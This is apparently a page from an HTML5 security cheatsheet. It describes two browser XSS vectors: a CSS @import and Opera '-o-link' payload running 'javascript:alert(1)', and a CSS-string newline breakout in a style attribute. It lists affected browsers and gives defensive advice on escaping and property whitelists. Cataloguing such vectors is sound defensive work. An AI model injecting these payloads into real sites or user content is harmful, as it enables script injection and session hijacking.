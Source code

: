 
```
<style>*[{}@import'test.css?]{color: green;}</style>X
```

Make sure in user submitted CSS the contents of attribute selectors are properly escaped with backslashes. Also make sure to use a CSS property:value whitelist to forbid properties like -o-link and -o-link-source.


```
* {-o-link:'javascript:alert(1)';-o-link-source: current;}crossdomain: 1path: [http://html5sec.org/test.css](http://html5sec.org/test.css)name: test.css
```

*   opera 8.0
*   opera 11.64

*   xss
*   javascript
*   opera
*   css
*   hijacking
*   proprietary

reporter：.mario

### CSS-string breaking[#45](#45)[test](test/#45)

Opera, Firefox and other browsers allow breaking out an css-string with newline symbols. A string cannot directly contain a newline in CSS2+. [a] Characters*, accepted as CCS-strings breakers: Firefox, Internet Explorer (IE8+ standards mode), Opera, Google Chrome, Safari: 10,12,13 Opera 11.01↓, Google Chrome 16↓, Safari: 1-8,11,14-31,127 Opera 11.01↓: 0 * Characters are given as decimal ASCII table index.


```
<div style="font-family:'foo[a];color:red;';">XXX</div>
```

*   opera 8.0
*   opera latest

*   firefox 1.x
*   firefox latest

*   chrome 3.0
*   chrome latest

*   safari 3.0
*   safari latest

*   internet explorer 8.0
*   internet explorer latest

*   trick
*   opera
*   firefox
*   chrome
*   firefox
*   internet explorer
*   css
